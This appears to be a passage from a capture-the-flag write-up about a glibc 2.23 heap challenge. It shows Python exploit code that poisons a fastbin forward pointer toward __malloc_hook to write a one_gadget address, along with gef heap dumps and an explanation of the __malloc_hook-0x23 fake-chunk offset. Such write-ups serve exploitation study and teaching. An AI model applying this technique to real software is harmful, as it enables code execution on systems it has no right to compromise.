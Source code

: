 ```
execve = libc_base + libc.symbols['execve']
malloc_hook = libc_base + libc.symbols['__malloc_hook']
onegadget = libc_base + 0x4527a
print(hex(onegadget))
print(hex(malloc_hook))

delete(3)
delete(2)

edit(2, p64(malloc_hook), b'a')
add(4, b'a' * 0x17, 0x40, b'a' * (0x40-1))
add(5, p64(onegadget), 0x40, b'a' * (0x40-1))
```
If I look at heap bins shortly after overwriting the forward pointer for a chunk in the 0x30 fastbin to the malloc hook address, I can see that my new chunk is showing up, but its size is supposedly 0, and it's showing up with "incorrect fastbin index"
```
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────────────────────────── Fastbins for arena 0x7fa7ca46bb20 ──────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30]  ←  Chunk(addr=0x55f65499c150, size=0x30, flags=)  ←  Chunk(addr=0x7fa7ca46bb20, size=0x0, flags=) [incorrect fastbin_index]
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60]  ←  Chunk(addr=0x55f65499c180, size=0x60, flags=PREV_INUSE)  ←  Chunk(addr=0x55f65499c210, size=0x60, flags=PREV_INUSE)
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```
If I were to carry on at this point, I would get an error. I can avoid that by instead overwriting the forward pointer to an address slightly before the malloc hook but where the size will show up as one within the fastbins; 0x7f is one of the more plausible sizes in this case since there are already libc addresses in this section; I just need to find one preceded by enough nulls so that I can pick an offset with a full int value of 0x7f; at least in libc version 2.23, this can be found at the offset __malloc_hook-0x23, at 0x00007f3b0b832aed in the following snippet of memory. This size of chunk is long enough that I will be able to overwrite the actual malloc hook when editing the content of the chunk.
```
gef➤  x/20gx 0x7f3b0b832ab0
0x7f3b0b832ab0: 0x0000000000000000      0x0000000000000000
0x7f3b0b832ac0: 0x0000000000000000      0x0000000000000000
0x7f3b0b832ad0: 0x0000000000000000      0x0000000000000000
0x7f3b0b832ae0: 0x0000000000000000      0x0000000000000000
0x7f3b0b832af0: 0x00007f3b0b831260      0x0000000000000000
0x7f3b0b832b00 <__memalign_hook>:       0x00007f3b0b4f3ea0      0x00007f3b0b4f3a70
0x7f3b0b832b10 <__malloc_hook>: 0x0000000000000000      0x0000000000000000
0x7f3b0b832b20: 0x0000000100000000      0x0000000000000000
0x7f3b0b832b30: 0x0000000000000000      0x0000000000000000
0x7f3b0b832b40: 0x0000000000000000      0x0000000000000000
gef➤  x/10gx 0x00007f3b0b832aed
0x7f3b0b832aed: 0x3b0b831260000000      0x000000000000007f
0x7f3b0b832afd: 0x3b0b4f3ea0000000      0x3b0b4f3a7000007f
0x7f3b0b832b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7f3b0b832b1d: 0x0000000000000000      0x0000000000000000
0x7f3b0b832b2d: 0x0000000000000000      0x0000000000000000
```